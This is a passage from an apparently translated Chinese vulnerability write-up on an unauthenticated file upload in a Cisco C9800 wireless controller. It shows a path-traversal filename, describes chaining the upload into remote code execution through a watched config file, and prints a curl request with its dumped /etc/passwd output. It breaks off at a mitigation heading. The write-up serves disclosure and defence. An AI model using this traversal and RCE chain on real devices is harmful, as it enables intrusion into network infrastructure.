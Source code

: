 文件将被写入位置 .. file_name，其中位置定义为配置文件中的 /harddisk/ap_spectral_recording/  
，如下所示：set $upload_file_dst_path /harddisk/ap_spectral_recording/;  
  
没有任何东西阻止我们使用 .. 进行路径遍历，所以下一个问题是：我们应该将文件放在哪里？  
  
访问 https://10.0.23.70:8443/ 显示了默认的 OpenResty 主页，该页面从 /usr/binos/openresty/nginx/html  
 提供，因此这是一个逻辑的目标位置——我们将尝试将文件放在这里，值得注意的是，该服务不需要身份验证，使其成为利用上传路径的理想候选。  
  
filename="../../usr/binos/openresty/nginx/html/foo.txt"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jk15xMqLYiaticOCiawMFfev9ZOufcshA36aSB0zML0whtd6MTRc1S1FqUTZZDXA6pj0mqZyjiaAKo0fA/640?wx_fmt=png&from=appmsg "")  
# RCE  
  
现在只需建立一种可靠的方法，利用此上传功能就能够实现RCE，可能存在多种方法来实现这一点。  
  
一种途径是使用 inotifywait 的服务，这是一个允许监控指定目录中文件事件的工具。  
  
在深入研究这些服务后，我们发现了一个内部进程管理服务（pvp.sh），该服务等待文件写入到特定目录，一旦检测到变化，它可以根据服务配置文件中指定的命令触发服务重新加载。  
  
![pvp.sh 代码片段](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jk15xMqLYiaticOCiawMFfev9ZLvA1MrCqvfJQB5Lpeibm9mW0eXOL1Ek0ps7R78bdnOecjqt7mzD2Mtg/640?wx_fmt=png&from=appmsg "")  
  
pvp.sh 代码片段  
  
简而言之，为了实现远程代码执行（RCE），我们需要：  
- 用我们自己的命令覆盖现有的配置文件  
  
- 上传一个新文件以导致服务重新加载  
  
- 检查是否成功  
  
![修改后的配置文件](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jk15xMqLYiaticOCiawMFfev9Z10HzlBlvl8819KcU3yjiciaBNbyS1E9zhibVPyL66XGbPfOpIW4zmqbWg/640?wx_fmt=png&from=appmsg "")  
  
修改后的配置文件  
  
![发送请求](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jk15xMqLYiaticOCiawMFfev9Z2xcAzuzYNRyiaOwDSuIkuumOdJIcNjp3GI2zvL4CgQfvN6W7wdhIDwQ/640?wx_fmt=png&from=appmsg "")  
  
发送请求  
```
# curl -k https://10.0.23.70/webui/login/etc_passwdroot:*:0:0:root:/root:/bin/bashbinos:x:85:85:binos administrative user:/usr/binos/conf:/usr/binos/conf/bshell.shbin:x:1:1:bin:/bin:/sbin/nologindaemon:x:2:2:daemon:/sbin:/sbin/nologinadm:x:3:4:adm:/var/adm:/sbin/nologinlp:x:4:7:lp:/var/spool/lpd:/sbin/nologinsync:x:5:0:sync:/sbin:/bin/syncshutdown:x:6:0:shutdown:/sbin:/sbin/shutdownhalt:x:7:0:halt:/sbin:/sbin/haltmail:x:8:12:mail:/var/spool/mail:/sbin/nologinftp:x:14:50:FTP User:/var/ftp:/sbin/nologinnobody:x:99:99:Nobody:/:/sbin/nologindbus:x:81:81:System message bus:/:/sbin/nologinsshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologinrpc:x:32:32:Portmapper RPC user:/:/sbin/nologinrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologinnfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologinmailnull:x:47:47::/var/spool/mqueue:/sbin/nologinsmmsp:x:51:51::/var/spool/mqueue:/sbin/nologinmessagebus:x:998:997::/var/lib/dbus:/bin/falseavahi:x:997:996::/var/run/avahi-daemon:/bin/falseavahi-autoipd:x:996:995:Avahi autoip daemon:/var/run/avahi-autoipd:/bin/falseguestshell:!:1000:1000::/home/guestshell:qemu:x:1001:1001:qemu::/sbin/nologindockeruser:*:1000000:65536:Dockeruser:/:/sbin/nologin
```  
  
**注意：**在全新 WLC 安装测试中，端口 8443 默认是开放的——即使没有主动启用 AP Image Upgrade 功能。  
  
这表明该服务可能在默认安装中启用，并且易受攻击的端点至少在测试的 C9800 系列版本上是可访问的。  
# 缓解措施  
  